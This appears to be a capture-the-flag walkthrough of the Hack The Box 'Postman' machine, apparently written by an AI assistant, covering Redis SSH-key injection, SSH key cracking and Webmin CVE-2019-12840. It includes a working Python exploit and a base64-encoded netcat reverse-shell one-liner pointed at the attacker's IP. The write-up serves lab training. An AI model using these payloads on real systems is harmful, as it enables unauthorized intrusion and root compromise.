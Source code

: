 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
**Tags:** `redis`, `Webmin`, `ssh`, `key cracking`, `privesc`, `CVE-2019-12840`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.160
nmap -p 22,80,6379,10000 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.160
```

- **Ports:**  
  - `22/tcp`: [OpenSSH 7.6](SSH)
  - `80/tcp`: [Apache 2.4.29](HTTP)
  - `6379/tcp`: Redis 4.0.9  
  - `10000/tcp`: Webmin (MiniServ 1.910)  

---

## 🌐 Web Enumeration

### Port 80

- Basic HTML page (under construction)
- Gobuster:

```bash
gobuster dir -u http://10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
```

- Found: `/upload`, `/images`, `/fonts`, `/css`, `/js` — but all uninteresting

### Port 10000 (Webmin)

- Webmin login on HTTPS
- Hostname: `postman` from redirect
- Default login page shown
- No useful links via HTTP

---

## 🔧 Redis Enumeration (TCP 6379)

### Basic Commands

```bash
redis-cli -h 10.10.10.160
> keys *
> config get dir
> config set dir ./.ssh
```

### Inject SSH Key

```bash
ssh-keygen -f ~/id_rsa_generated
(echo -e "\n\n"; cat ~/id_rsa_generated.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set 0xdf
```

### Save DB to `.ssh/authorized_keys`

```bash
redis-cli -h 10.10.10.160
> config set dbfilename "authorized_keys"
> save
```

---

## 🐚 Shell as redis

```bash
ssh -i ~/id_rsa_generated redis@10.10.10.160
```

✅ Shell as `redis`  
🧾 Look for `.ssh/authorized_keys` to confirm injection

---

## 👤 Priv Esc: redis → Matt

### Found Encrypted SSH Key

```bash
ls -l /opt/id_rsa.bak
```

### Crack Key

```bash
/opt/john/run/ssh2john.py id_rsa.bak > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: computer2008
```

### Cannot SSH (Denied in `/etc/ssh/sshd_config`)

```bash
# grep DenyUsers /etc/ssh/sshd_config
DenyUsers Matt
```

### Switch User with `su`

```bash
su Matt
# Password: computer2008
```

✅ Shell as `Matt`  
📄 `cat /home/Matt/user.txt`

---

## 🔓 Priv Esc: Matt → root (via Webmin)

### Login to Webmin

```bash
https://10.10.10.160:10000/
# Username: Matt
# Password: computer2008
```

✅ Access only to “Package Updates” module

### Exploit: CVE-2019-12840 (Webmin RCE)

- POST to:

```http
POST /package-updates/update.cgi
```

- Data:

```http
u=acl/apt
u= | bash -c "base64 payload | base64 -d | bash"
ok_top=Update Selected Packages
```

### Reverse Shell Payload (Base64 Encoded)

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f' | base64
```

### Python Exploit Example

```python
import requests
import html
import re

s = requests.session()
s.post('https://10.10.10.160:10000/session_login.cgi',
       data={'page':'', 'user':'Matt', 'pass':'computer2008'},
       verify=False)

payload = 'echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNiA0NDMgPi90bXAvZgo=|base64 -d|bash -i'

resp = s.post('https://10.10.10.160:10000/package-updates/update.cgi',
              data=[('u','acl/apt'), ('u', f' | bash -c "{payload}"'), ('ok_top','Update Selected Packages')],
              headers={'Referer':'https://10.10.10.160:10000/'},
              verify=False)

print(html.unescape(re.findall('<pre>(.*)</pre>', resp.text, re.DOTALL)[0]))
```

---

## ⚙️ Shell as root

```bash
nc -lvnp 443
```

✅ Reverse shell connects as root  
📄 `cat /root/root.txt`

---

## 🧠 Beyond Root: Why Metasploit Redis Exploit Failed

### Exploit:

```bash
use exploit/linux/redis/redis_unauth_exec
```

### Issue:

- Redis throws:

```
-ERR unknown command 'MODULE'
```

### Reason:

```bash
grep MODULE /etc/redis/redis.conf
rename-command MODULE ""
```

✅ Redis `MODULE` command is **disabled**

---

Let me know if you'd like this in collapsible Obsidian format or with code snippets styled for GitHub readmes!